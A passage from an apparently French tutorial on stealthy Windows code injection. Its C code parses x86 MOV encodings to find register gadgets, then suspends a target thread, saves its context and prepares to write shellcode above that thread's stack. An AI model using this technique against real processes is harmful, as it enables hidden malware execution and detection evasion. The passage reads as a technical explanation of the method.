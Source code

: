 ```
 
          if( !GoodReg[Ev] || !GoodReg[Gv] ) return NULL;
 
          Ev = Ev << 4;
 
          *regs = Ev | Gv;
 
          *address += 3;
 
          return *address - 3;
      }
      else
      {
           if( (*(*address + 1) & 0x28) == 0x28 ) return NULL; //exception !
 
           *offset = 0;
           BYTE Ev = *(*address + 1) >> 3 & 0x07 ;
           BYTE Gv =    *(*address + 1) & 0x07 ;
 
           if(Ev == Gv) return NULL;
 
           if( !GoodReg[Ev] || !GoodReg[Gv] ) return NULL;
 
           Ev = Ev << 4;
 
           *regs = Ev | Gv;
 
           *address += 2;
 
           return *address - 2;
      }
 
      return NULL;
}
```
Enfin nous, maintenant que nous avons les instructions nécessaires permettant une écriture sécurisé. Nous allons écrire notre routine au dessus de la pile du Thread cible.
Il nous faudra avant tout placer l’adresse de notre JMP $ pour le RET dû au passage dans notre MOV :
```
if(SuspendThread(hThread) == -1)goto exit;
 
    CONTEXT Context;
    CONTEXT SafeContext;      //On sauvegarde le context d'origine.
    Context.ContextFlags = CONTEXT_FULL;
 
    if(!GetThreadContext(hThread, &Context))goto exit;
 
    SafeContext = Context;
 
    LPDWORD PtrToRegContext[9];
 
    PtrToRegContext[3] = &Context.Ebx;
    PtrToRegContext[5] = &Context.Ebp;
    PtrToRegContext[6] = &Context.Esi;
    PtrToRegContext[7] = &Context.Edi;
 
    LPDWORD SrcReg = PtrToRegContext[Regs/16];      //Adresse du DWORD dans Context du registre source (Gv).
    LPDWORD DstReg = PtrToRegContext[Regs%16];      //Adresse du DWORD dans Context du registre de destination(Ev)
 
    DWORD hAddrBase = Context.Esp - 8 - sizeof(sc);
```